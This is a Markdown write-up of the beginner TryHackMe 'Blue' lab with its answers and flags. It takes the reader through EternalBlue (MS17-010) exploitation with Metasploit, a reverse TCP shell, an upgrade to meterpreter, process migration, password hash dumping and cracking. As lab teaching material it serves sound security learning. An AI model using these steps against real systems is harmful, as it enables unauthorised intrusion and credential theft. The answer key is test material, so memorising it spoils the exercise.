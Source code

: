 # [Blue](https://tryhackme.com/room/blue)

![Blue](./images/Blue.png)

## Task 1 - Recon

Scan and learn what exploit this machine is vulnerable to. Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up. This room is not meant to be a boot2root CTF, rather, this is an educational series for complete beginners. Professionals will likely get very little out of this room beyond basic practice as the process here is meant to be beginner-focused. 

![task1-blue](./images/task1-blue.png)

Art by one of our members, Varg - [THM Profile](https://tryhackme.com/p/Varg) - [Instagram](https://www.instagram.com/varghalladesign/) - [Blue Merch](https://www.redbubble.com/shop/ap/53637482) - [Twitter](https://twitter.com/Vargnaar)

Link to Ice, the sequel to Blue: [Link](https://tryhackme.com/room/ice)

You can check out the third box in this series, Blaster, here: [Link](https://tryhackme.com/room/blaster)

-----------------------------------------


The virtual machine used in this room (Blue) can be downloaded for offline usage from https://darkstar7471.com/resources.html


Enjoy the room! For future rooms and write-ups, follow [@darkstar7471](https://twitter.com/darkstar7471) on Twitter.

### Answer the questions

* Scan the machine. (If you are unsure how to tackle this, I recommend checking out the [Nmap](https://tryhackme.com/room/furthernmap) room)

	![task1-nmap](./images/task1-nmap.png)

* How many ports are open with a port number under 1000?

	`3`

* What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

	`ms17-010`

## Task 2 - Gain Access

Exploit the machine and gain a foothold.

### Answer the questions

* Start [Metasploit](https://tryhackme.com/module/metasploit)

	![task2-msfconsole](./images/task2-msfconsole.png)

* Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

	`exploit/windows/smb/ms17_010_eternalblue`

	![task2-ms17](./images/task2-ms17.png)

* Show options and set the one required value. What is the name of this value? (All caps for submission)

	`RHOSTS`

	![task2-options](./images/task2-options.png)

Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

`set payload windows/x64/shell/reverse_tcp`

* With that done, run the exploit!

	![task2-exploit](./images/task2-exploit.png)

* Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 

	![task2-background](./images/task2-background.png)

## Task 3 - Escalate

Escalate privileges, learn how to upgrade shells in metasploit.

### Answer the questions

* If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 

	`post/multi/manage/shell_to_meterpreter`

	![task3-meterpreter](./images/task3-meterpreter.png)

* Select this (use MODULE_PATH). Show options, what option are we required to change?

	`SESSION`

	![task3-options](./images/task3-options.png)

* Set the required option, you may need to list all of the sessions to find your target here. 

	![task3-setup](./images/task3-setup.png)

* Run! If this doesn't work, try completing the exploit from the previous task once more.

	![task3-upgraqde](./images/task3-upgraqde.png)

* Once the meterpreter shell conversion completes, select that session for use.

	![task3-interact](./images/task3-interact.png)

* Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 

	![task3-whoami](./images/task3-whoami.png)

* List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

	![task3-ps](./images/task3-ps.png)

* Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 

	![task3-migrate](./images/task3-migrate.png)

## Task 4 - Cracking

Dump the non-default user's password and crack it!

### Answer the questions

* Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 

	`Jon`

	![task4-hashdump](./images/task4-hashdump.png)

* Copy this password hash to a file and research how to crack it. What is the cracked password?

	`alqfna22`

	![task5-john](./images/task5-john.png)

## Task 5 - Find flags!

Find the three flags planted on this machine. These are not traditional flags, rather, they're meant to represent key locations within the Windows system. Use the hints provided below to complete this room!


-----------------------------------------------------------------


Completed Blue? Check out Ice: [Link](https://tryhackme.com/room/ice)

You can check out the third box in this series, Blaster, here: [Link](https://tryhackme.com/room/blaster)

### Answer the questions

* Flag1? This flag can be found at the system root. 

	`flag{access_the_machine}`

	![task6-flag1](./images/task6-flag1.png)

Flag2? This flag can be found at the location where passwords are stored within Windows.

* Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen. 

	`flag{sam_database_elevated_access}`

	![task6-flag2](./images/task6-flag2.png)

* Flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 

	`flag{admin_documents_can_be_valuable}`
	
	![task6-flag3](./images/task6-flag3.png)


